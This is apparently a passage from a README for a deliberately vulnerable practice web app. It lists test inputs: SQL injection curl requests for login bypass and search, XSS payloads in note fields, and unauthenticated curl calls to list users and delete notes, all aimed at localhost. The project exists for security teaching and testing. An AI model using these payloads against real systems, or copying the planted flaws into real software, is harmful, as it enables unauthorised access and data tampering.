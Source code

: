 ## 🧪 VULNERABILITY TESTING

### SQL Injection Tests
```bash
# Login bypass
curl -X POST http://localhost:3000/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"admin'\'' OR '\''1'\''='\''1","password":"anything"}'

# Search injection
curl "http://localhost:3000/api/notes?q='\''%20OR%20'\''1'\''='\''1"
```

### XSS Tests
- Create note with title: `<script>alert('XSS!')</script>`
- Content: `<img src=x onerror=alert('XSS')>`

### Access Control Tests
```bash
# Access all users without authentication
curl http://localhost:3000/api/users

# Delete any note without ownership check
curl -X DELETE http://localhost:3000/api/notes/[any-note-id]
```

## 📁 PROJECT STRUCTURE

```
vulnerable_web/
├── src/
│   ├── app/
│   │   ├── api/             # Vulnerable API endpoints
│   │   └── page.tsx         # Landing page
│   ├── components/          # React components (planned)
│   ├── lib/                 # Utilities (auth, db, vulnerable helpers)
│   ├── repositories/        # Data access with SQL injection
│   ├── services/            # Business logic layer
│   └── types/               # TypeScript definitions
├── prisma/
│   ├── schema.prisma        # Database schema
│   └── seed.ts              # Vulnerable data seeding
├── openapi.yaml             # Complete API documentation
├── setup.sh                 # Automated setup script
├── DEPLOYMENT.md            # Vercel deployment guide
└── README.md                # Comprehensive documentation
```

## ⚠️ IMPORTANT REMINDERS
